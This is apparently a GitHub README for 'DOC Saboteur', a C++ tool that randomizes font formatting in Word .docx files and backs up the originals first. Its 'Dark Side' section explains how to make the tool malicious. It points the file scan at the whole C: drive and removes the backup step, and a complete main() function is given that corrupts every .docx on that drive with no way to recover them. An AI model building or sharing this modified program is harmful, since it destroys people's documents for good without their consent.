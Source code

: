 ## 切换语言 / Switch Language

- [简体中文](README.md)
- [English](README_en.md)
---

# DOC Saboteur

## Introduction

DOC Saboteur is a fun and practical tool specifically designed for randomizing the formatting properties of Word documents (*.docx), including font size, font color, bolding, and italicizing. This tool is perfect for developers who need to test the fault tolerance of document processing software to various formats, or for any user interested in randomizing Word document formats.

## Features

- **Format Property Randomization**: Automatically scans all Word documents (*.docx) in the program root directory (or specified directory) and randomizes the text formatting of each file.
- **File Processing**:
  - **Non-support for Chinese filenames**: The program will automatically detect Chinese filenames and rename them to non-Chinese strings to ensure error-free processing.
  - **Automatic Backup**: Before any modifications, automatically backs up the original file to the `doc_saboteur_backup` directory on the C drive to ensure data safety.

## User Guide

1. Place Word documents (*.docx) in the program root directory (default configuration).
2. Run the DOC Saboteur program.
3. The program will automatically scan all Word documents in the root directory and process them with format randomization.
4. After processing, you can find the modified documents in the program root directory.
5. Original files will be safely backed up to the `doc_saboteur_backup` directory on the C drive.

## Precautions

1. Ensure that the `doc_saboteur_backup` directory on the C drive exists and has enough space to store backup files.
2. The program currently does not support directly processing documents with Chinese filenames but will automatically rename them.
3. When using this program, ensure you have sufficient permissions to access and modify files in the specified directory.

## Code Compilation Environment
- **System Environment**: `Windows10-x64`; `Visual Studio 2022`; `C++17`;

- **Required Libraries**: `Pugixml`; `libzip`; `zlib`;

## Dark Side
You only need to modify two lines of code in the `main()` function to turn it into a very malicious program.
1. Modify the code `std::vector<std::string> file_list = op.find_docx_files("./");`, where `"./"` represents the program's root directory. You can change it to a disk drive, such as `C:/`, so the program will traverse and corrupt all `*.docx` files under the C drive.
2. Comment out `if (op.copy_file(*iter, "C:/doc_saboteur_backup/" + *iter) == true)`, this line of code is used to back up the document to `C:/doc_saboteur_backup/` before corrupting it. If commented out, the program will not back up the document, making the damage to your documents irreversible!!!

#### Below is an example:

```c++
int main() {
    std::cout << "DOC Saboteur - v0.1;\nPowered by RMSHE - 2024.03.15;\n" << std::endl;

    try {
        std::vector<std::string> file_list = op.find_docx_files("C:/");
        for (auto iter = file_list.begin(); iter != file_list.end(); ++iter) {
                std::filesystem::path _docxPath_ = op.renameIfChinese(*iter);

                // Convert to std::string
                std::string docxPathString = _docxPath_.string();

                // Get const char* type
                const char *docxPath = docxPathString.c_str();
                const char *docXmlPath = "word/document.xml";

                std::cout << docxPath << std::endl;

                std::string xmlContent = op.readZipFile(docxPath, docXmlPath);

                // Randomization processing
                std::string modifiedXml = randomizeFontPropertiesEnhanced(xmlContent);
                op.writeZipFile(docxPath, docXmlPath, modifiedXml);

                std::cout << "Document processed: " + *iter << std::endl;
            }
    } catch (const std::exception &e) {
        std::cerr << "An error occurred: " << e.what() << std::endl;

        system("pause");
        return 1;
    }

    system("pause");
    return 0;
}
```